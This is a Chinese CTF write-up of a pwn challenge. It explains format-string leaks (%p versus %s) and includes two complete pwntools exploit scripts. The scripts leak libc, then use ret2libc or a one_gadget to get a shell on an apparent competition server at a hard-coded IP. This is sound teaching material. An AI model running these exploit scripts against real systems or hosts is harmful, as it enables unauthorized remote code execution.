




## 总结：

通过这道题的学习与收获有：

1、学习了格式化字符串漏洞中的%s泄露函数地址原理以及roderick师傅写的Libcbox的用法（其实用法也很简单了），之后就没什么了直接ret2libc就打了。

2、这道赛题最后只有三解... 不过真的很简单，做出来的人很少的原因估计是因为这道题是比赛还有不到两个小时结束，才把正确的程序放出来（之前放的都是错误的...）。

## 保护策略：


## 程序分析：


程序逻辑非常简单，刚开始是time加srand加rand。看一下汇编代码发现没有办法覆盖种子，因此这里生成的就是一个不可控随机数。比赛刚开始的时候，程序放出来的是rand%200，因此进入fmt和overflow函数还需要进行爆破。不过现在这个就非常简单了，要么随机数是0要么随机数是1,0进入overflow,1进入fmt函数。




发现这两个函数都存在溢出，并且fmt函数中存在格式化字符串漏洞。由于程序没有开canary。那直接ret2libc？这样的话这个格式化字符串漏洞岂不是就没有意义了？先不管这么多，脚本写了再说。

写完之后发现打不通（之前写ret2libc的脚本给删了，这里就不再呈现了），通过调试发现，pop rdi的地址中出现了0a，把输出给截断了... 这意味着我们无法使用程序里的pop rdi。这样的话就没法泄露函数（毕竟我们连rdi寄存器都控制不了）

然后考虑一下给的格式化字符串漏洞，我们可以用它来泄露栈中存放的函数真实地址，利用溢出来劫持程序执行流。

泄露的话有两种方法，第一种是用%p泄露，第二种是用%s泄露。之前一直不清楚它们的区别，请教了roderick师傅之后总算是清楚了。

以printf("%s"，"aaaa")为例 	printf的第二个参数装的并不是aaaa这四个字符，而是aaaa字符串的首地址。可是最后打印出来的并不是aaaa字符串的首地址，而是这个地址所指向的字符串。由此可以推断出，%s有寻址的功能。

## 大致思路：

思路重新回到泄露栈中的函数真实地址，先说第一种%p进行泄露。




栈顶偏移25(0x13+6),因此直接%25$p即可。不过这样泄露出来的地址还需要减去362，因为现在得到的是puts+362，而我们仅仅要的是puts的真实地址。这样的缺点就是程序patch不同的libc，这个偏移是不一样的。以本题为例，题目并没有给出libc.so因此这个偏移我们是无法确定的(现在看到的只是我们本地的偏移，远程可能并不一样)。

不过这个方法有一定的运气成分在这里面，我猜这个版本不会太高（我本机是2.27的，当时本地通了远程没通，就知道肯定是libc patch的有问题），就从2.23开始patch libc。结果patch第一个2.23-0ubuntu11.3_amd64就被我给猜对了（服务器那边用的也是这个libc）。

这个libc蒙对之后，由于基地址也泄露出来了，剩下的就简单多了，本地怎么打，远程就怎么打(不过讲这个方法感觉没什么意义，毕竟这是靠运气（不过如果远程给了Libc的话这个方法是可以用的）主要我确实是用这个方法打通了，因此记录一下)

## exp1

```python
# coding:utf-8
from pwn import *
from LibcSearcher import *
def pwn():
    context(arch='amd64', os='linux', log_level='debug')
    p = remote('39.99.242.16', 10000)
    libc = ELF("/home/hacker/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6")
    fmt_addr = 0x400836
    p.recvuntil('fmt\n')
    payload = '%25$p' + (0x78 - 5) * 'a' + p64(fmt_addr)
    p.sendline(payload)
    p.recvuntil('\x78')
    leak_addr = int(p.recv(12), 16)
    print('leak_addr1--------------->', hex(leak_addr))
    libc_base = leak_addr - 362 - 0x6F6A0
    print(hex(libc_base))
    print('libc_base-------------->', hex(libc_base))
    sys_addr = libc_base + libc.symbols['system']
    bin_sh_addr = libc_base + libc.search("/bin/sh").next()
    pop_rdi_addr = 0x21112 + libc_base
    print(hex(libc_base))
    ret = 0x400679
    payload = 0x78 * 'b'
    payload+=p64(ret)+p64(pop_rdi_addr)+p64(bin_sh_addr)+p64(sys_addr)+p64(0xdeadbeef)
    p.sendline(payload)
    p.interactive()
pwn()
```
这个打通概率是二分之一，因为如果第一次进到overflow就不通了。



第二种用%s来泄露就靠谱多了，我们在栈中布置puts的got地址，利用%s的寻址特征，来达到直接泄露puts的真实地址（也就是不会再受libc版本导致偏移不同的影响），依旧利用溢出来劫持程序执行流。

只需要输入%7$saaaa' + p64(puts_got_addr)然后填垃圾数据垫到返回地址处劫持执行流即可。

这里泄露是很方便，但是我用LibcSearcher搜不到对应正确的libc版本。可以用[在线搜libc的网站搜](https://libc.blukat.me/?q=puts%3A680&l=libc6-amd64_2.10.1-0ubuntu15_i386)对应的Libc版本

也可以用Roderick师傅写的[pwncli](https://github.com/RoderickChan/pwncli)中的LibcBox来搜，这个LibcBox写的确实很棒

下面是LibcBox搜索的效果图



它搜到了十个版本的libc，但是LibcSearcher我记的仅仅是搜到了三个（不排除是我的LibcSearcher有问题）。

泄露出了libc基地址，那就随便打了，不过好像没法搜pop_rdi这个指令（不过可以把libc下载下来用Ropgadget来搜，不过有点麻烦），就直接用one_gadget打了(pwncli这个库模式只支持python3)

## exp2

```python
#!/usr/bin/env python3
# coding:utf-8
from pwn import *
from pwncli import *
def pwn():
    context(arch='amd64', os='linux', log_level='debug')
    p = remote('39.99.242.16', 10000)
    over_flow = 0x400836
    puts_got_addr = 0x601018
    p.recvuntil(b'fmt\n')
    payload = b'%7$saaaa' + p64(puts_got_addr) + (0x78 - 16) * b'a' + p64(over_flow)
    p.sendline(payload)
    puts_addr = u64(p.recv(6).ljust(8,b'\x00'))#用%s泄露出来的地址应该用u64来接收
    print('puts_addr--------------->',hex(puts_addr))
    lb = LibcBox()
    lb.add_symbol('puts', puts_addr)#这个地方跟libcsearcher用法基本一样，下面也是去dump出来
    lb.search(download_so=1)
    libc_base = puts_addr - lb.dump('puts')
    one_addr = 0xf03a4 + libc_base
    payload = 0x78 * b'b' + p64(one_addr)
    p.sendline(payload)
    p.interactive()
pwn()
```